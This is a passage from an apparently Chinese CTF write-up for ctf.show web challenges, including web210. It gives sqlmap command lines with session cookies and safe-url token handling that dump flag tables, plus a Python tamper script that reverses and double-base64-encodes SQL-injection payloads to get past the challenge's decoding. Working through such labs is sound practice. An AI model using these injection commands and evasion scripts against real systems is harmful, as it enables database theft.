python sqlmap.py -u http://beac917f-4986-43a2-b276-84649df256a7.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer http://beac917f-4986-43a2-b276-84649df256a7.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="cf_clearance=zOvseNGe7vsa2iI2sul0q..4iqncuiCpp8aVLf69f9Y-1717821963-1.0.1.1-N5r_3ciDzNeXvE8j78vzM6Uka2Tkxbx_0Jor4kyshLMGZLVImg6LN8JOObUcpFLUAVMeTbSquJsxIvNK.js70Q; PHPSESSID=m751m5q6bq0iovaur5u94kteq4" --safe-url="http://beac917f-4986-43a2-b276-84649df256a7.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flav -C ctfshow_flagx,id,tes --dump --batch --tamper my1.py,equaltolike.py
```







## web210



```
//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
```

对查询的 payload 进行逆向处理，先反转，再 base64 加密，再反转，再 base64 加密，传入查询后，经过题目的解密和反转处理，最终又恢复到我们正确的 payload 实现注入。

```python
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
import base64

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    retVal = payload
    if payload:
        retVal = base64.b64encode(base64.b64encode(payload[::-1].encode())[::-1]).decode()
    return retVal
```



```
python sqlmap.py -u http://8a06c7ed-782b-4fdd-b0a2-024301ad1a84.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer http://8a06c7ed-782b-4fdd-b0a2-024301ad1a84.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="cf_clearance=zOvseNGe7vsa2iI2sul0q..4iqncuiCpp8aVLf69f9Y-1717821963-1.0.1.1-N5r_3ciDzNeXvE8j78vzM6Uka2Tkxbx_0Jor4kyshLMGZLVImg6LN8JOObUcpFLUAVMeTbSquJsxIvNK.js70Q; PHPSESSID=m751m5q6bq0iovaur5u94kteq4" --safe-url="http://8a06c7ed-782b-4fdd-b0a2-024301ad1a84.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flavi -C ctfshow_flagxx,id,tes --dump --batch --tamper my2.py
```





